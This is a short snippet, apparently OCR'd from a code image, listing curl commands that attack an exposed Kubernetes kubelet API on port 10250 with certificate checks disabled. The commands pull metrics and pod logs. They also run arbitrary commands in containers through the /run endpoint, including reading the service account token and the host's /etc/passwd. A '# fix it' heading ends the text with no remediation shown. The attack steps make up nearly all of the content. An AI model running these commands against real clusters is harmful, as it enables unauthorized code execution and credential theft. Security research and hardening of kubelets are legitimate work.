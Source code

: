 
# get infos

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/pods/

# run code

kubectl apply -f pod.yaml

# get sensitive data

curl -XPOST -k https://$IP:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>"

curl -XPOST -k https://$IP:10250/run/default/my-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://$IP:10250/run/default/my-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it